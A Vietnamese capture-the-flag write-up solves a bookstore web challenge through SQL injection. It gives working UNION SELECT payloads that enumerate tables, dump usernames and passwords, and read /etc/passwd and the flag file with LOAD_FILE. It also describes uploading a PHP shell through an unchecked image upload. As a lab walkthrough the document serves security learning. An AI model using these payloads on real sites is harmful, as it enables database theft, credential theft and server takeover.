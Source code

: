 # The Book Store

1.	Description:
-	Flag được giấu ở đường dẫn /flagxxx.txt 
-	Bài này là một bài SQLi 

2.	Solution:
-	Ta chọn một sản phẩm bất kì rồi vào burp chuyển request chứa sản phẩm vừa chọn đến Repeater

![1](./images/1.png)

-	Ta thử nhập một kí tự đặc biệt như ‘ hoặc “ để xem có lỗi hay không
payload: GET /description.php?ID=NEW-2'&category=new HTTP/1.2

![2](./images/2.png) ta đoán đây là một lỗ hổng sql!

-	Xác định các cột trong db bằng order by 
payload: ID=NEW-2' ORDER BY 16-- -  

![3](./images/3.png)

payload: ID=NEW-2' ORDER BY 15-- -  
![4](./images/4.png) Vậy có 15 cột 

-	Bây giờ ta sử dụng UNION để bắt đầu lấy thông tin 
payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- -&category=new

giúp ta xác định được các cột trả về ở vị trí nào.

![5](./images/5.png)

-	Ta kiểm tra xem version của db trong bài ctf này là loại nào để ta có thể sử dụng information.schema

![6](./images/6.png)

version MariaDB nên ta sẽ khai thác bằng cách truy cập vào bảng information_schema

-	Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,unhex(hex(table_name)),13,14,15 FROM information_schema.tables WHERE table_schema=database()-- -&category=new 

![6](./images/7.png)

Việc ta sử dụng unhex(hex(table_name)) nhằm mục đích giúp hệ thống hiểu dữ liệu ta truyền vào dưới dạng hex và được trả ra dưới dạng text để ta đọc
Trong MariaDB có 1 cột table_schema chứa tên database trong khi db infomation_schema lại trả về rất nhiều bảng khác của hệ thống nên ta cần thêm điều kiện table_schema=database() để trả về đúng cột db ta đang cần
Ta thấy có 5 cột dược trả về trong đó có bảng users có thể chứa dữ liệu của admin

-	Tiếp tục lấy dữ liệu từng bảng users xem có bao nhiêu cột trong bảng.
Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,group_concat(unhex(hex(column_name))),13,14,15 FROM information_schema.columns WHERE table_name='users'

![6](./images/8.png)

Ta thấy kết quả trả về có 2 cột ta cần quan tâm là cột UserName và cột Password

-	Payload: ID=0' UNION SELECT 1,group_concat(UserName),group_concat(Password),4,5,6,7,8,9,10,11,12,13,14,15 FROM users-- -&category=new 

![6](./images/9.png)

Để nhìn rõ kết quả ta paste link lên browse

![6](./images/10.png)

Tài khoản  username = admin && password = 1234567890 

-	Đăng nhập thử vào admin ta thấy có 2 phần là All user với chức năng show toàn bộ user 

![6](./images/14.png)
 
- và phần Upload product với chức năng upload một file ảnh 

![6](./images/15.png)

-	Check thử thư mục /etc/passwd
payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/etc/passwd'),13,14,15-- -&category=new 

Ta được:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin (user chạy web, thư mục home là /var/www có thể là thư mục gốc của web )

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
www:x:1000:1000::/home/www:/bin/sh
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false

-	Lợi dụng việc upload file không kiểm tra tên, loại, nội dung và kích thước tệp giúp ta có thể tải một file lệnh shell lên trên hệ thống ta tạo file shell có tên path.php nội dung như sau:

![1](./images/11.png)
File shell này giúp tìm các file có tên bắt đầu là flag và kết thúc với đuôi .txt và được tìm từ thư mục gốc trên hệ thống, sau đó kết quả được ghi vào file /www/flag_paths.txt  (file flag_paths.txt được lưu trong thư mục web)

-	Upload file lên và thử các đường dẫn http://<..> /uploads/path.php hoặc /storage/path.php 
Loay hoay một hồi thì mình chợt nhận ra rằng file upload là up ảnh minh họa =)), lúc này mình nghĩ là liệu có mở được file ảnh ko. Click chuột trái vào ảnh và chọn được mở sang một tap khác 

![1](./images/12.png)

- Vậy là ta đã có đường dẫn để mở file path.php, ta vào đường dẫn /img/books/path.php được nội dung sau 

![2](./images/16.png)

- Giờ ta đã có file flag_paths.txt tìm đường dẫn flag :  
/flagR3LgR.txt

- Payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/flagR3LgR.txt'),13,14,15-- -&category=new

![1](./images/13.png)

- CHH{Tr41nin9_N4m_B0okSt0r3_f16b8267ba93b3329ff5ae377c3134e3}